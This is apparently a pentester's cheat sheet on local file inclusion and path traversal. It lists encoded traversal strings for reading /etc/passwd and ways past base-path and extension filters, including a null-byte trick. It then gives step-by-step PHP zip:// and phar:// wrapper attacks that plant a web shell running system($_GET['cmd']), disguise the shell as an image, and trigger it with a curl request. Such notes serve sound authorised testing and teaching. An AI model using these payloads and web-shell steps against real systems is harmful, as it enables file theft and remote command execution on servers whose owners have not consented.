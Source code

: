# LFI / Path Traversal

#### We can bypass filters various ways:

* ../../../../etc/passwd
* ....//....//....//....//....//etc/passwd
* `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd`
* `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd`
* `..%c0%af..%c0%af..%c0%af/etc/passwd`
* `..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f/etc/passwd`

An app may require file name to start with base folder like /var/www/images. We can then try `filename=/var/www/images/../../../etc/passwd` .

An app may require filename to end with expected file extension like .jpg. We can then trye `filename=../../../etc/passwd%00.png` .

### PHP wrappers

{% hint style="info" %}
Its possible to use a .zip file and use the phar wrapper. Create a .php file with a payload and zip it. Then upload /?page=phar://uploads/payload.zip/payload\&cmd=id
{% endhint %}

<details>

<summary>zip://</summary>

Wen upload file is possible

```bash
# Create payload
echo "<?php system($_GET['cmd']); ?>" > payload.php
# Zip zip payload.zip payload.php
zip payload.zip payload.php

# Execute commands
/?page=zip://uploads/payload.zip/payload.php&cmd=id 
# Could be possible without extension
/?page=zip://uploads/payload.zip/payload&cmd=id 
```

</details>

<details>

<summary>phar://</summary>

Uploading files is needed

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile script into .phar file

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Trigger filie

```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

</details>

For more wrappers:

[https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)
